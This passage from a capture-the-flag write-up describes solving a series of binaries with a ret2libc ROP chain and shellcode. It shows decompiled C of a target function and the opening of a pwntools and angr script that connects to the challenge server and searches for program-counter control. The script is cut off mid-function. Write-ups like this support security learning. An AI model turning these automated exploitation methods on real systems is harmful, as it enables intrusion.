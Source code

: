 ```c
void holy_grail(void)

{
  int __fd;
  size_t __n;
  
  __fd = open("./log",2);
  __n = strlen("DONE\n");
  write(__fd,"DONE\n",__n);
  close(__fd);
                    /* WARNING: Subroutine does not return */
  exit(0x2c);
}
```

I learned from an admin that the intended solution was [ret2dlresolve](https://ir0nstone.gitbook.io/notes/types/stack/ret2dlresolve) -- the binary had no plt stub for this function so it couldn't be called directly, but if you forged one the linker would happily fetch a pointer to this function for you. 

I, being incredibly lazy, chose to just fake this function by writing DONE to the log file in my rop chain. sorry ;)

# tying it all together

As I had an 100% accurate ret2libc chain it didn't take much to finish up the challenge. I modified the end of my chain to mprotect and write shellcode which mimicked the holy grail function, wrapped it in a loop, and let it run. 


```python
from pwn import *
import time, angr, logging

logging.getLogger('angr').setLevel('ERROR')
logging.getLogger('claripy').setLevel('ERROR')

context.terminal = ['kitty','-e']

r = remote("ctf.battelle.org", 30042)

for i in range(5):
    log.info(f"solving binary {i}")
    r.recvuntil(b"********************************")
    r.recvline()
    with open("current_binary", "wb") as f:
        f.write(r.recvuntil(b"********************************\n"))

    p = angr.Project("current_binary")
    state = p.factory.blank_state()

    simgr = p.factory.simgr(state, save_unconstrained=True)
    simgr.stashes['mem_corrupt']  = []
    
    def check_mem_corruption(simgr):
        if len(simgr.unconstrained):
            for path in simgr.unconstrained:
                if path.satisfiable(extra_constraints=[path.regs.pc == "ABCD"]):
                    path.add_constraints(path.regs.pc == "ABCD")
                    if path.satisfiable():
                        simgr.stashes['mem_corrupt'].append(path)
                    simgr.stashes['unconstrained'].remove(path)
                    simgr.drop(stash='active')
        return simgr
```